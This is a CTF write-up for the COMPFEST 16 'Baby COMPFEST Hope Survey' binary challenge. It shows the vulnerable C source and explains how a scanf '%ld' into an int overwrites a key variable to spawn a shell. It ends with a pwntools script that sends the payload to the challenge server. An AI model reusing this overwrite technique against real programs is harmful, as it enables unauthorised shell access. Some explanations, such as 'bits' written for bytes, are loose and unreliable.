 # COMPFEST CTF HACKER CLASS WRITEUP

## Baby COMPFEST Hope Survey

### Source Code
In this challenge, we are provided with the source code and binary file to exploit.

```c
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE 0x100

__attribute__((constructor)) _()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    puts("Selamat datang para peserta CTF COMPFEST 16!");
    puts("Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.");
    puts("Silakan isi form berikut dengan harapan Anda. Terima kasih!");
}

void read_val(const char *msg, void *ptr)
{
    printf("%s", msg);
    scanf("%ld", ptr);
}

void read_buf(const char *msg, char *buf, int length)
{
    printf("%s", msg);
    read(0, buf, BUF_SIZE);
}

int main()
{
    puts("\n===== Form Harapan Peserta CTF COMPFEST 16 =====");

    int key = 0;
    int length;
    read_val("Panjang harapan (biar efisien harap maklum): ", &length);
    if (length < 0 || length >= BUF_SIZE)
    {
        printf("Hayo jangan nackal ya dek...\n");
        return -1;
    }

    if (key == 0xDEADBEEF)
    {
        puts("\nEmang boleh se-hengker ini...");
        system("/bin/sh");
        return 69;
    }

    puts("Mohon maaf saat ini form sedang dalam perbaikan. Silakan coba chall sebelah dulu hehe.");
}
```

In the code above, we can see several functions that can potentially be exploited, such as `read_buf()`, although it is not called within the `main` function.

Next, we look at the `read_val()` function, where we see that our input is read using the format specifier `%ld` for a long integer. Negative values in long integers are represented in two's complement form. 

When this value is then cast or interpreted as an integer, only the lower 32 bits are used. This type confusion can be exploited to perform an integer overflow and change `key` to `0xDEADBEEF`.

### Exploitation

---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/craft_payload_babby.png?raw=true)

---

By exploiting the type confusion, we can insert `DEADBEEF` in the first 8 bits and zeroes in the next 8 bits. This payload will cause an overflow and change the value of `key` from 0 to `DEADBEEF`.

---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/effidence%201.png?raw=true)

---

As shown in the image above, the value of `key` (rbp-4) has been changed to `deadbeef`, and we can obtain a shell.

### Exploit with Python Script (pwn)
```python
from pwn import *

# Specify the remote server address and port
remote_address = 'challenges.ctf.compfest.id'
remote_port = 20005

# The value that will overwrite the key to 0xDEADBEEF
payload = '-2401053092612145152'

# Connect to the remote server
io = remote(remote_address, remote_port)

# Send the payload to the program
io.sendline(payload)

# Interact with the obtained shell
io.interactive()
```
---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/evidence%202.png?raw=true)

---

Thank you.
